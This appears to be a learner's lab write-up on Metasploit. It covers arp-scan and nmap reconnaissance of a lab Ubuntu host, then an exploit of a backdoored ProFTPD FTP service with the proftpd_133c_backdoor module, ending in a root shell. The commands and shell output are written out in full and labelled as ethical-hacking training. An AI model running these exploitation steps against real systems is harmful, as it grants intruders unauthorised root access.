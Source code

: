 # 🛡️ Day 12: Cyber Security – Metasploit and Backdoor Exploitation

## 🔍 About Metasploit
Metasploit is a powerful penetration testing framework used for developing and executing exploit code against remote target machines. It provides security researchers and ethical hackers with tools to:
- Discover vulnerabilities
- Develop exploits
- Conduct post-exploitation
- Maintain access

## ⚙️ How to Use Metasploit
1. **Launch Metasploit Framework**:
   ```bash
   msfconsole
   ```

2. **Search for Exploits**:
   ```bash
   search <service-name>
   ```

3. **Select an Exploit Module**:
   ```bash
   use exploit/path/to/module
   ```

4. **Set Parameters**:
   ```bash
   set RHOST <target-ip>
   set RPORT <target-port>
   set PAYLOAD <payload-type>
   set LHOST <your-ip>
   set LPORT <your-port>
   ```

5. **Run the Exploit**:
   ```bash
   exploit
   ```

## 🎯 Target Identification and Exploitation

### Step 1: IP Discovery using `arp-scan`
To identify the IP addresses on the network:
```bash
sudo arp-scan --interface=eth0 --localnet
```
- Identified target (Ubuntu system): `192.168.1.105`
- Attacker (Kali system): `192.168.1.102`

### Step 2: OS Detection using Nmap
```bash
sudo nmap -O 192.168.1.105
```
- Operating System: Ubuntu Linux

### Step 3: Scan for Open Ports
```bash
nmap -sV 192.168.1.105
```
- Port 21 (FTP) was open.

### Step 4: Launch Metasploit and Set Exploit
```bash
msfconsole
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOST 192.168.1.105
set RPORT 21
set PAYLOAD cmd/unix/interact
exploit
```

### ✅ Successfully Gained Access
After executing the exploit, we successfully got a remote shell to the target Ubuntu system from the Kali terminal.

```
[*] Command shell session 1 opened (192.168.1.102:4444 -> 192.168.1.105:21)
id
uid=0(root) gid=0(root) groups=0(root)
```

## ✅ Summary
- Used `arp-scan` and `nmap` for network and OS identification.
- Found vulnerable FTP service on port 21.
- Exploited using Metasploit `proftpd_133c_backdoor`.
- Successfully gained root shell access on the Ubuntu system from Kali.

> ⚠️ **Important**: Always use tools like Metasploit in controlled lab environments for ethical hacking and training purposes only.

---

*Date Logged: 2025-06-28*
